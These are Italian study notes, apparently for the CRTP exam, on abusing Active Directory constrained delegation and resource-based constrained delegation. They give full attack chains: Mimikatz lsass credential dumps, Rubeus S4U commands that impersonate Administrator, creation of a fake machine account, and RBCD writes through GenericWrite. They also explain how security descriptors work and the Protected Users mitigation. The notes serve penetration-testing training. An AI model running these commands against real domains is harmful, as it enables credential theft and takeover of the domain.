- FILE-SRV = Service B — file server, gira come FILE-SRV$
- svc-web ha constrained delegation verso cifs/FILE-SRV.corp.local
- Hai compromesso WEB-SRV e sei local admin su quella macchina

L'idea è che IIS quando un utente si logga al portale web, deve accedere al file server per mostrargli i suoi documenti — per questo l'admin ha configurato la delegation.

#### Step 1 — verifichi la delegation
```
Get-DomainUser svc-web -Properties msds-allowedtodelegateto
# Output: cifs/FILE-SRV.corp.local
```

##### Step 2 — dumpi l'hash di svc-web da lsass
Sei local admin su WEB-SRV, quindi puoi leggere lsass:
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Output:
# Username: svc-web
# aes256: 4b55a8c0e37d...
# rc4_hmac_nt: 8846f7ea...
```

##### Step 3 — impersoni il DA verso FILE-SRV
Usi S4U2Self + S4U2Proxy per ottenere un TGS valido per Administrator verso cifs/FILE-SRV:
```
Rubeus.exe s4u /user:svc-web /aes256:4b55a8c0e37d... /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

Quello che succede internamente:
```
S4U2Self:  Rubeus chiede al DC un TGS per Administrator verso svc-web
           DC: ok, svc-web ha TrustedToAuthForDelegation → rilascio il TGS

S4U2Proxy: Rubeus presenta quel TGS e chiede al DC un TGS per Administrator verso cifs/FILE-SRV
           DC: controlla msds-allowedtodelegateto di svc-web → cifs/FILE-SRV c'è → rilascio il TGS
```

#### Step 4 — accedi a FILE-SRV come Administrator
Il ticket è già iniettato in memoria (/ptt):
```
# Sei Administrator su FILE-SRV
ls \\FILE-SRV\c$
Enter-PSSession -ComputerName FILE-SRV

# Dumpi lsass di FILE-SRV
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Se un DA ha una sessione attiva → hai il suo hash
```


> Non hai mai visto la password di Administrator. Non hai fatto nessuna preauth come Administrator. Il DC ha rilasciato il TGS perché svc-web aveva il permesso di delegare verso cifs/FILE-SRV — e tu avevi l'hash di svc-web.

### Il problema di partenza
Vuoi un TGS che dica "Administrator è autenticato verso FILE-SRV". Ma per ottenerlo con S4U2Proxy, il DC richiede come input un TGS che provi che Administrator è già autenticato da qualche parte — non puoi chiedere direttamente un TGS per un utente a caso verso un servizio a caso.
In un flusso normale quel TGS esiste già — perché Administrator si è autenticato lui stesso a svc-web. Ma tu sei un attaccante, Administrator non si è mai autenticato a svc-web — quindi quel TGS non esiste. S4U2Self serve esattamente a crearlo dal nulla.

#### S4U2Self — creare la "prova" dal nulla
Rubeus dice al DC: "Administrator si è autenticato a svc-web tramite un metodo non-Kerberos (form web, NTLM, ecc.), dammi un TGS che lo provi".
Il DC risponde: "svc-web ha la flag TrustedToAuthForDelegation — significa che mi fido di lui quando dice che un utente si è autenticato. Ecco il TGS."
- Il TGS che ottieni dice: "Administrator è autenticato verso svc-web". Non è un TGS per accedere a FILE-SRV — è solo una prova di autenticazione verso svc-web stesso. Administrator non sa che esiste, non lo ha chiesto lui.

#### S4U2Proxy — usare quella prova per ottenere il TGS finale
Ora Rubeus presenta al DC quel TGS appena ottenuto e dice: "ho Administrator autenticato su svc-web, ho bisogno di accedere a FILE-SRV per suo conto".
Il DC fa due controlli:
- primo — il TGS di input è valido? Sì, lo ha emesso lui stesso con S4U2Self.
- secondo — svc-web ha il permesso di delegare verso cifs/FILE-SRV? Controlla msds-allowedtodelegateto — sì, c'è. Quindi rilascia il TGS finale.
Il TGS finale dice: "Administrator è autenticato verso cifs/FILE-SRV". Questo è quello che presenti a FILE-SRV per accedere.

#####  Il flusso visivo
```
                    S4U2Self
Rubeus → DC:  "Administrator si è autenticato a svc-web"
DC → Rubeus:  TGS-1 = "Administrator @ svc-web"
                         ↓
                    S4U2Proxy
Rubeus → DC:  TGS-1 + "voglio accedere a cifs/FILE-SRV"
DC → Rubeus:  TGS-2 = "Administrator @ cifs/FILE-SRV"
                         ↓
Rubeus → FILE-SRV:  TGS-2
FILE-SRV:  "benvenuto Administrator"
```

#### Perché il DC accetta S4U2Self senza che Administrator lo sappia
Questa è la parte che sembra strana — il DC crea un TGS per Administrator senza che Administrator lo abbia chiesto. Lo fa perché **TrustedToAuthForDelegation** è esattamente questo: una flag che dice al DC "fidati di svc-web quando ti dice che un utente si è autenticato da lui, anche senza prova Kerberos". È by design, non è una vulnerabilità — **è il meccanismo pensato per servizi che ricevono autenticazioni non-Kerberos come form web o NTLM**.
- Il problema è che se un attaccante compromette svc-web, può invocare S4U2Self per qualsiasi utente del dominio — incluso Administrator — senza che quell'utente abbia mai toccato svc-web.


### Serve necessariamente administrator? s4u2self con un altro utente?
No, non ti serve necessariamente Administrator — puoi usare qualsiasi utente del dominio.

- La scelta dipende da cosa vuoi fare su FILE-SRV. S4U2Self accetta qualsiasi username valido nel dominio — il DC non verifica se quell'utente ha effettivamente accesso a FILE-SRV, rilascia il TGS comunque. Sarà FILE-SRV a decidere cosa può fare quell'utente quando presenta il ticket.

#### Esempi
- Se vuoi accesso completo a FILE-SRV usi Administrator o un Domain Admin — accesso totale a c$, puoi dumpare lsass, muoverti lateralmente.
- Se FILE-SRV ha una share \\FILE-SRV\HR accessibile solo al gruppo HR, usi un utente HR — magari per esfiltrare documenti senza fare rumore con un account privilegiato.
- Se vuoi fare meno rumore possibile, usi un utente normale che ha accesso legittimo a FILE-SRV — l'accesso sembra completamente normale nei log.

```
# Con Administrator — massimo accesso, più rumoroso
Rubeus.exe s4u /user:svc-web /aes256:<hash> /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt

# Con un utente HR — accesso limitato, meno rumoroso
Rubeus.exe s4u /user:svc-web /aes256:<hash> /impersonateuser:hr-user /msdsspn:cifs/FILE-SRV.corp.local /ptt

# Con un utente qualsiasi del dominio
Rubeus.exe s4u /user:svc-web /aes256:<hash> /impersonateuser:mario /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

#### L'unica eccezione — utenti protetti
> Protected Users è un gruppo di sicurezza speciale introdotto in Windows Server 2012 R2 che applica automaticamente una serie di restrizioni agli account che ne fanno parte, senza bisogno di configurare nulla manualmente. (vedi pagina AD.md per saperne di più)

Gli utenti nel gruppo Protected Users non possono essere impersonati tramite S4U2Self — il DC rifiuta la richiesta. È una delle protezioni che Microsoft ha aggiunto proprio per mitigare questo tipo di attacco.

```
# Verifica se l'utente target è in Protected Users
Get-DomainGroupMember -Identity "Protected Users" | select membername
```

## Resource-Based Constrained Delegation (RBCD)


### Il problema della constrained delegation classica
- Con la constrained delegation classica, chi decide chi può delegare verso cosa è sempre l'AD admin — lui setta msds-allowedtodelegateto sull'account di Service A dicendo "puoi delegare verso Service B".
- Questo significa che ogni volta che un team ha bisogno di configurare una delega, deve aprire un ticket all'AD admin centrale. Non scala bene in ambienti grandi.

### L'idea di RBCD
Con RBCD si ribalta la logica — non è Service A che dichiara verso chi può delegare, è Service B che dichiara chi può delegare verso di lui.

L'attributo si sposta:
```
Constrained classica:   attributo su SERVICE A  → "posso delegare verso B"
RBCD:                   attributo su SERVICE B  → "accetto deleghe da A"
```
L'attributo in questione è ```msds-allowedtoactonbehalfofotheridentity``` su Service B — contiene una security descriptor con la lista degli account che possono delegare verso Service B.

### Perché è più flessibile
Il proprietario di Service B può modificare il proprio attributo senza coinvolgere l'AD admin — basta avere **GenericWrite** o **WriteProperty** sul proprio oggetto computer. In un'azienda grande ogni team gestisce i propri server e può configurare autonomamente chi può delegare verso di loro.

### Il meccanismo Kerberos
Il flusso S4U è identico alla constrained delegation classica — S4U2Self poi S4U2Proxy. La differenza è solo dove il DC va a controllare il permesso:
```
Constrained classica:
DC controlla msds-allowedtodelegateto su SERVICE A
"Service A ha il permesso di delegare verso Service B?"

RBCD:
DC controlla msds-allowedtoactonbehalfofotheridentity su SERVICE B
"Service B accetta deleghe da Service A?"
```

### Esempio
- WEB-SRV = Service A — hai compromesso questa macchina, sei local admin
- FILE-SRV = Service B — ha nel suo attributo msds-allowedtoactonbehalfofotheridentity il SID di WEB-SRV$
- Un admin ha configurato RBCD su FILE-SRV dicendo "accetto deleghe da WEB-SRV"

> Nota. In WEB-SRV, devi essere local admin perché l'operazione che fai richiede di leggere la memoria di lsass.exe — e lsass è un processo protetto che solo SYSTEM e gli amministratori locali possono aprire.

#### Step 1 — verifichi la configurazione RBCD su FILE-SRV
```
# Vedi chi può delegare verso FILE-SRV
Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity

# Per leggere il SID in modo leggibile
$raw = (Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity).'msds-allowedtoactonbehalfofotheridentity'
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0
$sd.DiscretionaryAcl
# Output: SecurityIdentifier = S-1-5-21-...-1234  ← SID di WEB-SRV$
```

##### Risolvi il SID per confermare:
```
Convert-SidToName S-1-5-21-...-1234
# Output: corp\WEB-SRV$   ← confermato, WEB-SRV può delegare verso FILE-SRV
```

#### Step 2 — dumpi l'hash di WEB-SRV$ da lsass
Sei local admin su WEB-SRV, quindi leggi lsass:
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Output rilevante:
# Authentication Id: 0 ; 996
# Session           : Service from 0
# Username          : WEB-SRV$
# Domain            : CORP
# aes256_hmac       : a3b4c5d6e7f8...
# rc4_hmac_nt       : 1a2b3c4d...
```
Questo comando apre un handle a lsass.exe con SeDebugPrivilege e legge la memoria dove sono conservati gli hash. Un utente normale non ha SeDebugPrivilege — solo gli amministratori locali ce l'hanno per default.

#### Step 3 — S4U2Self + S4U2Proxy
Hai l'hash di WEB-SRV$ e FILE-SRV accetta deleghe da WEB-SRV$ — tutto quello che ti serve:
```
Rubeus.exe s4u /user:WEB-SRV$ /aes256:a3b4c5d6e7f8... /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt
```
Internamente:
```
S4U2Self:
Rubeus → DC: "Administrator si è autenticato a WEB-SRV$"
DC → Rubeus: TGS-1 = "Administrator @ WEB-SRV$"

S4U2Proxy:
Rubeus → DC: TGS-1 + "voglio cifs/FILE-SRV per Administrator"
DC controlla msds-allowedtoactonbehalfofotheridentity su FILE-SRV
→ WEB-SRV$ è nella lista → OK
DC → Rubeus: TGS-2 = "Administrator @ cifs/FILE-SRV"
```

#### Step 4 — accedi a FILE-SRV

```
# Ticket già in memoria grazie a /ptt
ls \\FILE-SRV\c$
# Accesso completo come Administrator

Enter-PSSession -ComputerName FILE-SRV
# Sei dentro come Administrator

# Dumpi lsass di FILE-SRV
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Se un DA è loggato → hai il suo hash → DA compromesso
```

### Esempio 2 - non ci sono delegation configurate e le crei tu abusando di GenericWrite.
Hai GenericWrite su PC-Luca — non sei DA, sei un utente normale. Con RBCD puoi diventare Administrator su PC-Luca da solo.
#### Step 1 — crei un computer account fasullo (ogni utente di dominio può crearne fino a 10 di default):
```
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount FakePC -Password (ConvertTo-SecureString 'Pass123!' -AsPlainText -Force)

# Prendi il SID di FakePC
$fakeSID = Get-DomainComputer FakePC | select -expand objectsid
```

#### Step 2 — scrivi l'attributo RBCD su PC-Luca dicendo che FakePC può delegare verso di lui:
```
# Costruisci la security descriptor
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$fakeSID)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Scrivi su PC-Luca (hai GenericWrite quindi puoi farlo)
Set-DomainObject -Identity PC-Luca -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Verifica che sia stato scritto
Get-DomainComputer PC-Luca -Properties msds-allowedtoactonbehalfofotheridentity
```

#### Step 3 — ora FakePC può delegare verso PC-Luca. Usi S4U2Self + S4U2Proxy con le credenziali di FakePC:
```# Ottieni hash di FakePC
$cred = New-Object System.Net.NetworkCredential('FakePC$', 'Pass123!')
$hash = # calcoli l'NTLM hash di Pass123!

# S4U2Self + S4U2Proxy — impersoni Administrator verso PC-Luca
Rubeus.exe s4u /user:FakePC$ /rc4:<hash-fakepc> /impersonateuser:Administrator /msdsspn:cifs/PC-Luca.corp.local /ptt

# Accedi a PC-Luca come Administrator
ls \\PC-Luca\c$
```

##### Perché funziona S4U2Self qui
Nota che FakePC$ non ha TrustedToAuthForDelegation: True — è un computer account normale. Però S4U2Self funziona lo stesso perché con RBCD il DC applica regole diverse:
```
Constrained classica:   S4U2Self richiede TrustedToAuthForDelegation = True
RBCD:                   S4U2Self funziona sempre, il DC controlla solo
                        msds-allowedtoactonbehalfofotheridentity su Service B
```
È una differenza sottile ma importante — con RBCD non hai bisogno che FakePC abbia nessun flag speciale, basta che PC-Luca lo accetti nella sua lista.


#### Output di Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity

L'output raw è illeggibile direttamente perché l'attributo è un binary blob — una security descriptor in formato binario:
```
Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128, 20, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 36, 0, 0, 0, 1, 2, 0, 0...}
```
Non ci capisci nulla così — è una serie di byte grezzi. Per leggerlo devi decodificarlo:
```
$raw = (Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity).'msds-allowedtoactonbehalfofotheridentity'
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0
$sd.DiscretionaryAcl | select SecurityIdentifier, AceType, AccessMask
SecurityIdentifier                          AceType  AccessMask
------------------                          -------  ----------
S-1-5-21-3623811015-3361044348-30300820-1234  Allow    983551
```
Poi risolvi il SID in nome leggibile:
```
Convert-SidToName S-1-5-21-3623811015-3361044348-30300820-1234
corp\WEB-SRV$
```

Quindi il risultato finale leggibile è che WEB-SRV$ può delegare verso FILE-SRV — ma ci vuole quel passaggio di decodifica intermedio perché AD salva la security descriptor in binario grezzo, non in testo.

#### Cosa fa questo comando $sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0

Crea un oggetto .NET di tipo RawSecurityDescriptor che sa come interpretare quei byte grezzi.

Pezzo per pezzo
- ```New-Object``` — crea una nuova istanza di una classe .NET. PowerShell può usare direttamente tutte le classi del .NET framework, non solo i cmdlet PowerShell.
- ```Security.AccessControl.RawSecurityDescriptor``` — è la classe .NET che rappresenta una security descriptor. Sa come leggere il formato binario delle security descriptor di Windows e trasformarlo in oggetti navigabili con proprietà leggibili.
- ```-ArgumentList $raw, 0``` — sono i parametri passati al costruttore della classe:
  - ```$raw``` = l'array di byte che hai letto dall'attributo AD
  - ```0``` = l'offset da cui iniziare a leggere nell'array — zero significa "parti dall'inizio"


> Analogia
> 
> È come avere un file PDF salvato come sequenza di byte grezzi. Da soli quei byte non significano nulla — sono solo numeri. Quando apri Adobe Reader stai facendo la stessa cosa: passi i byte grezzi a un programma che sa interpretare il formato PDF e te lo mostra in modo leggibile.
>
> RawSecurityDescriptor è il "Adobe Reader" per le security descriptor di Windows.

##### Cosa contiene l'oggetto dopo la decodifica
```
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0

$sd | select *
# Owner              : S-1-5-32-544  (Administrators)
# Group              : S-1-5-32-544
# DiscretionaryAcl   : {ACE1, ACE2, ...}  ← lista di chi ha accesso
# SystemAcl          : {}
# ControlFlags       : SePresentOwnerDefaulted...

# La parte che ti interessa è DiscretionaryAcl
$sd.DiscretionaryAcl | select SecurityIdentifier, AceType, AccessMask
# SecurityIdentifier = S-1-5-21-...-1234  ← SID di WEB-SRV$
# AceType            = Allow
# AccessMask         = 983551              ← permessi in formato numerico
```

La ```DiscretionaryAcl``` (DACL) è la lista degli ACE — Access Control Entry — che definiscono chi ha quali permessi. Nel caso di ```msds-allowedtoactonbehalfofotheridentity``` ogni ACE rappresenta un account che può delegare verso quella macchina.


#### Cosa sono security descriptor?
Una security descriptor è una struttura dati che Windows attacca a qualsiasi oggetto securizzabile — file, cartelle, chiavi di registry, oggetti AD, processi, servizi — e che definisce chi può fare cosa su quell'oggetto.

##### Cosa contiene
- Owner — chi possiede l'oggetto. Il proprietario può sempre modificare i permessi anche se non ha accesso esplicito.
- Group — gruppo primario del proprietario (legacy, usato poco oggi).
- DACL (Discretionary Access Control List) — la parte più importante. È la lista che definisce chi ha accesso e con quali permessi. Contiene una serie di ACE (Access Control Entry), ognuna delle quali dice "questo utente/gruppo può fare questa cosa".
- SACL (System Access Control List) — definisce cosa viene loggato negli eventi di sicurezza di Windows. "Logga ogni volta che qualcuno legge questo file" per esempio.

##### Cosa sono gli ACE
Ogni ACE dentro la DACL ha tre componenti:
```
SecurityIdentifier  →  chi (SID dell'utente o gruppo)
AceType             →  Allow o Deny
AccessMask          →  cosa (lettura, scrittura, esecuzione, ecc.)
```
Esempio su un file:
```
ACE 1: S-1-5-21-...-1001 (Mario)   Allow   Read, Write
ACE 2: S-1-5-32-544 (Administrators)  Allow   FullControl
ACE 3: S-1-5-21-...-1002 (Luca)    Deny    Read
```
Windows legge gli ACE in ordine — i Deny vengono prima degli Allow. Quindi Luca non può leggere il file anche se fosse in un gruppo che ha Allow.

> Analogia concreta
> Immagina un edificio aziendale. La security descriptor è il documento di sicurezza dell'edificio che dice:
> - proprietario: il direttore
> - DACL: Mario può entrare in ufficio e sala riunioni, Luca solo in ufficio, gli esterni non possono entrare da nessuna parte
> - SACL: logga ogni accesso alla sala server


##### Perché è rilevante in AD
In Active Directory ogni oggetto — utente, computer, GPO, OU — ha la sua security descriptor. Quando PowerView fa ```Find-InterestingDomainAcl``` sta leggendo le DACL di tutti gli oggetti AD cercando ACE che danno permessi interessanti a utenti non privilegiati.
I permessi più pericolosi su oggetti AD sono:
```
GenericAll        →  controllo totale sull'oggetto
WriteDacl         →  puoi modificare la DACL → puoi darti qualsiasi permesso
WriteOwner        →  puoi diventare proprietario → poi modifichi la DACL
GenericWrite      →  puoi modificare attributi → RBCD abuse
ForceChangePassword →  puoi cambiare la password senza conoscere quella attuale
```

##### Come le vedi in PowerShell
```
# Security descriptor di un file
Get-Acl C:\secret.txt | select Owner, Access

# Security descriptor di un oggetto AD
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | 
  select SecurityIdentifier, ActiveDirectoryRights, AceType

# Chi ha GenericAll su un utente
Get-DomainObjectAcl -Identity mario -ResolveGUIDs | 
  where {$_.ActiveDirectoryRights -match "GenericAll"}
```

> Nella CRTP abusare delle ACL mal configurate è uno dei path più comuni verso DA — spesso un utente normale ha WriteDacl su un gruppo privilegiato o GenericAll su un utente admin, e questo è sufficiente per scalare i privilegi senza toccare nessuna vulnerabilità tecnica.